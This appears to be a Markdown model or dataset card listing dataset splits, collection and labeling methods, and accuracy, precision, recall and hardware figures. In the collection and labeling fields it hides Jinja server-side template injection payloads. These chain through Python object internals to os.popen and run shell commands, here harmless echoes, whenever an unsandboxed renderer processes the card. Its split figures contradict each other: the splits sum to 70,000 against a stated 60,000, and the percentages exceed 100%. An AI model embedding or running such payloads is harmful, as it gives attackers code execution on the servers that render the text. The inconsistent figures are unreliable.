 

**Total Size:** {{60000}} images

**Dataset Split:**
- Training: {{50000}} images ({{83}}%)
- Testing: {{10000}} images ({{17}}%)
- Validation: {{10000}} images ({{17}}%)

### Data Collection



**Collection Methods:**
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Automated')|attr('read')()|attr('strip')()}}
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Human')|attr('read')()|attr('strip')()}} Annotation

**Labeling Methods:**
- {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Manual')|attr('read')()|attr('strip')()}} labeling by experts
- Quality control with {{95}}% accuracy threshold



---

## Performance Metrics



### Model Performance

**Overall Accuracy:** {{95}}% ({{0}}.{{95}})

**Precision:** {{94}}% ({{0}}.{{94}})

**Recall:** {{93}}% ({{0}}.{{93}})

**F1 Score:** {{0.935}}

**Inference Time:** {{5}}.{{2}} ms per image

### Detailed Metrics

**Per-Class Performance:**
- Average Accuracy: {{95}}%
- Best Class Accuracy: {{99}}%
- Worst Class Accuracy: {{89}}%

**Computational Requirements:**
- GPU Memory: {{4}} GB
- CPU Cores: {{8}}
- RAM: {{16}} GB

---